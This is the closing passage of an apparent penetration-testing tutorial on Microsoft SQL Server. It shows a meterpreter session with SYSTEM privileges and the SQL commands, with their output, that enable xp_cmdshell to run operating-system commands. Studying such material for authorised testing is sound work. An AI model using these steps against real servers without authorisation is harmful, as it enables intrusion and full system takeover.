 meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
\[/cce\]

So we're on the correct computer and we have "system" credentials which is the highest credentials you can have on a windows platform. Great success. At the heart of this metasploit module is some sql commands that will enable the xp\_cmdshell. If you wanted to manually enable xp\_cmdshell you could enter the sql commands below.

\[cce\]
1> SP_CONFIGURE 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> SP_CONFIGURE 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1>
\[/cce\]

That's all folks, more could be covered here but this will get you started. Once again I haven't covered anything new here and this documentation is meant to capture some of the common tasks that need to be completed when testing mssql. Hope this helps and happy mssql hunting.
